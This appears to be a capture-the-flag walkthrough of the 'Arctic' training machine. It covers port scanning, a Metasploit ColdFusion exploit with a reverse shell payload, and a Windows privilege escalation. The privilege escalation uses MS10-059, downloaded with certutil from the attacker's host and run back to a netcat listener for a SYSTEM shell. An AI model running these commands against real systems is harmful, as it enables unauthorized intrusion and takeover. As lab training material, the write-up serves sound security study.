 # Arctic

<pre>nmap -p 135,8500,49154 -sV -Pn 10.10.10.11        

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC</pre>

![alt text](<../Images/Arctic #1.png>)

- CFIDE directory stands for ColdFusion Integrated Development Environment
- Directory in Adobe ColdFusion installations that contains various files and resources used by ColdFusion applications






## Method 1 Metasploit

<pre>exploit/windows/http/coldfusion_fckeditor

set RHOSTS

set LHOST 

set LPORT

set PAYLOAD java/jsp_shell_reverse_tcp

set HTTPCLIENTTIMEOUT 150

run

msf6 exploit(windows/http/coldfusion_fckeditor) > exploit</pre>

<pre>C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled



C:\ColdFusion8\runtime\bin>net user
net user

User accounts for \\ARCTIC

-------------------------------------------------------------------------------
Administrator            Guest                    tolis                    
The command completed successfully.</pre>

<pre>C:\ColdFusion8\runtime\bin>net user tolis
net user tolis
User name                    tolis
Full Name                    tolis
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            22/3/2017 9:07:58   
Password expires             Never
Password changeable          22/3/2017 9:07:58   
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   16/5/2024 2:23:36   

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
The command completed successfully.</pre>

## Windows Exploit Suggester - Privilege Escalation

- Save output from `systeminfo` into sysinfo.txt
- Update the database

<pre>./windows-exploit-suggester.py --update</pre>

<pre>./windows-exploit-suggester.py --database 2024-05-14-mssb.xls --systeminfo sysinfo.txt</pre>

<pre>[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical</pre>

- Use `MS10-059:Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important`

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/README.md

- Transfer to target machine

<pre>python -m SimpleHTTPServer</pre>

<pre>certutil -urlcache -f http://10.10.14.8/MS10-059.exe MS10-059.exe</pre>

- Execute `MS10-059.exe` on target machine

<pre>MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR></pre>

- Setup netcat listener on attacking machine

<pre>nc -nvlp 5555</pre>

<pre>MS10-059.exe 10.10.14.8 5555</pre>

<pre>nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49666
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system</pre>

## Method 2 Manual Exploitation